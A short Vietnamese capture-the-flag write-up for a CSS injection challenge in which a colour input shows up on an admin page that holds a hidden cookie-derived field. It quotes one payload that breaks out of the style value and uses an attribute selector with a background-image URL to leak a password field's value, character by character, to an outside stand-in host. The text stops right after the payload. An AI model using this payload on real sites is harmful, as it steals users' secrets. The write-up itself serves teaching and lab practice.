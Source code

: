 # Mô tả (cung cấp cho CTFer)
Have you heard of CSS injection?
select your favorite color and display on amdin at /admin

## Writeup
trong giao diện được cung cấp bạn có thể thấy rằng có một mục input nơi chúng ta có thể nhập color mình muốn. Ngoài ra còn có một trường ẩn, giá trị của nó được lấy từ cookie.

tìm hiểu trên payload all of thing bạn sẽ thấy payload sau:
blue}; input[type="password"][value^="c"] {background-image: url('https://example.com?c');

